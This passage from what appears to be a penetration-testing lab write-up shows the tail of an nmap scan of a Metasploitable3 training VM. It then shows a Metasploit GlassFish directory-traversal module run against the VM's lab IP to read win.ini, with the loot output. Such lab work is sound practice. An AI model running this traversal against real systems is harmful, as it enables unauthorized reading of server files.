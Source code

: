 ```none
SF:alse,\r\n\x20\x20\x20\x20\"lucene_version\"\x20:\x20\"4\.7\"\r\n\x20\x2
SF:0},\r\n\x20\x20\"tagline\"\x20:\x20\"You\x20Know,\x20for\x20Search\"\r\
SF:n}\n")%r(HTTPOptions,4F,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReque
SF:st,4F,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain;\x20charse
SF:t=UTF-8\r\nContent-Length:\x200\r\n\r\n")%r(FourOhFourRequest,A9,"HTTP/
SF:1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charse
SF:t=UTF-8\r\nContent-Length:\x2080\r\n\r\nNo\x20handler\x20found\x20for\x
SF:20uri\x20\[/nice%20ports%2C/Tri%6Eity\.txt%2ebak\]\x20and\x20method\x20
SF:\[GET\]")%r(SIPOptions,4F,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\n");
MAC Address: 08:00:27:C2:F0:69 (Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 30 15:29:37 2020 -- 1 IP address (1 host up) scanned in 233.56 seconds
```

## Vulnerability Discovery

As seen in the `nmap` scan above, there are many outdated services running on this Windows Server 2008 R2 Metasploitable3 instance.
When there are so many outdated services running on a host like this, I like to do a quick check for known remote code execution vulnerabilities that exist in the software.

### Glassfish (Port 4848)

Vulnerable to directory traversal.
You will need to enable SSL for the directory traversal to work. 

```none
msf5 auxiliary(scanner/http/glassfish_traversal) > show options

Module options (auxiliary/scanner/http/glassfish_traversal):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   DEPTH     13                yes       Depth for Path Traversal
   FILEPATH  /windows/win.ini  yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    172.28.128.4      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     4848              yes       The target port (TCP)
   SSL       true              no        Negotiate SSL/TLS for outgoing connections
   THREADS   1                 yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf5 auxiliary(scanner/http/glassfish_traversal) > run

[+] File saved in: /home/kali/.msf4/loot/20200901135838_default_172.28.128.4_oracle.traversal_380931.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/glassfish_traversal) > loot

Loot
====

host          service  type              name              content     info  path
----          -------  ----              ----              -------     ----  ----
172.28.128.4           oracle.traversal  /windows/win.ini  text/plain        /home/kali/.msf4/loot/20200901135838_default_172.28.128.4_oracle.traversal_380931.txt

```